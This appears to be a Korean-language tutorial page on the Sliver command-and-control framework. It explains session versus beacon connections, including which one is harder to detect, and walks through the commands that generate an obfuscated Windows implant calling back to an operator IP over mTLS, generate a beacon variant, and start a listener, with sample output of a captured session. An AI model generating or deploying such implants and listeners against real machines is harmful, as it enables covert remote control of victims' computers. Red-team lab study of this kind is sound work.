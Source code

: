 ### Troubleshooting
Operator 프로파일을 생성할 때, `--lhost`를 `localhost`로 지정하면 오류가 나는 경우가 있다.  
`localhost`가 시스템에서 `::1`(IPv6)으로 해석되어 클라이언트가 IPv6 우선으로 연결을 시도했고, Sliver 서버에서 IPv4(127.0.0.1)에서만 수신 중이라면, 타임아웃(`context deadline exceeded`)이 난다.  
설정 편의를 위해 `--lhost 127.0.0.1`을 추천한다.  

---

## Connection
두 가지 종류의 연결 방식이 있다.
1. Session
- 타겟과 Sliver 서버 간에 **지속적인 연결**을 유지
- 실시간 interaction에 유리한 방식
- 네트워크에 항상 트래픽이 있어 탐지 가능성이 높음
2. Beacon
- 타겟이 정해진 주기마다 live하다는 신호를 서버에 보내고, 그때마다 새로운 명령이 있는지 확인
- 탐지 가능성이 낮지만, 명령 실행의 딜레이가 있음.

### Implant 생성
1. Session implant  
    ```bash
    sliver > generate --mtls 192.168.0.197 --os windows --arch amd64 --format exe

    [*] Generating new windows/amd64 implant binary
    [*] Symbol obfuscation is enabled
    [*] Build completed in 13s
    [*] Implant saved to /home/kali/ASSISTANT_SURROUND.exe
    ```  
    - `--mtls`: 전송 프로토콜
    - `192.168.0.197`: Sliver 서버 IP
    - `--os windows`: Windows용 payload 생성
    - `--arch amd64`: CPU 아케틱처 (default: amd64)
    - `--format exe`: 실행파일 (default: exe)

2. Beacon implant
    ```bash
    sliver > generate beacon --mtls 192.168.0.197 --os windows --seconds 10 --jitter 3
    ```
    - `--seconds 10`: 비콘 인터벌 타임 (default: 60, `--minutes`, `--hours`, `--days`도 가능)
    - `--jitter 3`: 랜덤 딜레이 값 (default: 30)

### Implant 실행
```bash
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1
```
서버에서 `mtls`를 실행하여 리스너를 오픈한다.  

생성된 implant를 타겟 PC에서 실행하면(Delivery 과정은 생략), 세션이 잡히는 것을 확인할 수 있다.  
```bash
[*] Session f8c93e97 ASSISTANT_SURROUND - 192.168.0.174:52616 (DESKTOP-DIE7A63) - windows/amd64 - Wed, 22 Sep 2025 09:49:59 EDT
```
